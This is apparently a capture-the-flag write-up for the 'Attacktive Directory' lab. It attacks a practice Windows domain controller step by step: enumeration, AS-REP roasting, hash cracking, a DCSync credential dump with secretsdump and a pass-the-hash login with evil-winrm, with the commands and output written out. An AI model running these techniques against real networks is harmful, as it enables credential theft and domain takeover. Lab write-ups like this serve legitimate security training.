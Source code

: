 # Room 		Attacktive Directory
> Mayank Srivastava | 17 dec 2020
--------------------------------------------------
## Target OS 	Windows Difficulty 	Medium
## Description 	99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?
## Maker 	Sq00ky
---------------------------------------------------------------
#	Reconnaissance
``` As always I can Run a nmap scan against the IP  ```

```-sC for Default script -sV for Enumerating versions -oN default nmap Output```

```nmap -Sc -sV -oN nmap <target_ip> ```

```
# Nmap 7.91 scan initiated Thu Dec 17 19:05:58 2020 as: nmap -sC -sV -oN nmap/initial 10.10.103.197
Nmap scan report for 10.10.103.197
Host is up (0.63s latency).
Not shown: 987 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-12-17 13:36:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-17T13:36:57+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2020-09-16T22:48:24
|_Not valid after:  2021-03-18T22:48:24
|_ssl-date: 2020-12-17T13:37:08+00:00; +2s from scanner time.
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-12-17T13:36:58
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 17 19:07:24 2020 -- 1 IP address (1 host up) scanned in 86.47 seconds
```

## Enumerating Port 80

We can start by looking at the webserver. There's default IIS web page also we can do directory bruteforcing but this box is related to Active Directory so let's Move forward. There is a DNS domain name that i am going set spoookysec.local in ```/etc/hosts``` file.

## Enumerating SMB

Let's try to Enumerate 139,445 ports.
using enum4linux
```
enum4linux -a spookysec.local
Nmap Output suggested our Domain Name was spookysec.local however, enum4linux shows THM-AD.
I can see enum4linux failed to provide much inforamtion such as 
users.
```
## Kerbrute

we can try kerbrute to  get users of DC
```kerbrute username --dc spookysec.local -d spookysec.local userlist.txt```
After running this command i have some vaild users of DC.
 
```
2020/10/01 04:50:02 >  [+] VALID USERNAME:       james@spookysec.local
2020/10/01 04:50:06 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2020/10/01 04:50:12 >  [+] VALID USERNAME:       James@spookysec.local
2020/10/01 04:50:14 >  [+] VALID USERNAME:       robin@spookysec.local
2020/10/01 04:50:36 >  [+] VALID USERNAME:       darkstar@spookysec.local
2020/10/01 04:50:50 >  [+] VALID USERNAME:       administrator@spookysec.local
2020/10/01 04:51:28 >  [+] VALID USERNAME:       backup@spookysec.local
2020/10/01 04:51:41 >  [+] VALID USERNAME:       paradox@spookysec.local
2020/10/01 04:53:01 >  [+] VALID USERNAME:       JAMES@spookysec.local
2020/10/01 04:53:28 >  [+] VALID USERNAME:       Robin@spookysec.local
2020/10/01 04:56:11 >  [+] VALID USERNAME:       Administrator@spookysec.local
2020/10/01 05:02:01 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2020/10/01 05:03:55 >  [+] VALID USERNAME:       Paradox@spookysec.local
2020/10/01 05:10:02 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2020/10/01 05:11:51 >  [+] VALID USERNAME:       ori@spookysec.local
2020/10/01 05:15:01 >  [+] VALID USERNAME:       ROBIN@spookysec.local
```
## Exploiting Kerberos


Now i am going to crack Active Directory password with AS-REP Roasting. This is an attack agains Kerberos for user accounts that do not require pre-authentication.

```python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -usersfile valid-users.txt```

After running this command i got ```NTLM``` hash


## Cracking 

i can't wait let's decrypt the hash using john and login to ```smb```.
Also you can use ```hashcat``` for cracking the hash use mode number ```18200``` for hash

## john

``` john scv-admin.txt --wordlist=/opt/password.txt```

## hashcat

```
hashcat -m 18200 svc-admin.txt /opt/password.txt --force
```

```Running john and hashcat will gave you a password.```

now at this stage i have smb username and password so let's try to login using smbclient

```
smbclient -L //<target_ip>/ --user svc-admin


 Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```
I found some shares and ```backup``` seems interesting.I found ```backup_credentials.txt``` file inside the ```backup```. Let's take a look at what's that include.

``` YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw ```
it's a base64 encoding.
Decrypting will give me another credential for the user backup.

## Elevating Privileges 

``` 
python secretsdump.py -just-dc backup@spookysec.local
```

Dumping this revels administrator NTLM hash. Now i can crack the hash or use ```evil-winrm``` to connect the administrator.

```
./evil-winrm.rb -i 10.10.225.20 -u Administrator -H (HASH HERE PLEASE)
```

# Thanks For Reading
